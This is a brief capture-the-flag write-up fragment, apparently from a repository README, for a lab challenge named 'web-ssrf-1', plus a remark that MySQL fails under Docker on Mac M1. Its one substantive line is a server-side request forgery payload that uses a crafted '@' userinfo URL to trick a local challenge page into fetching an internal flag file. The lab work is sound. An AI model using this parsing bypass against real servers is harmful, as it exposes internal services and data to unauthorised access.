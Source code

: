 ### Web Write up (web-ssrf-1)

http://localhost:8233/challenge.php?url=http://a:@127.0.0.1:80@baidu.com/flag.php

### MySQL

Not works in MAC M1 Docker env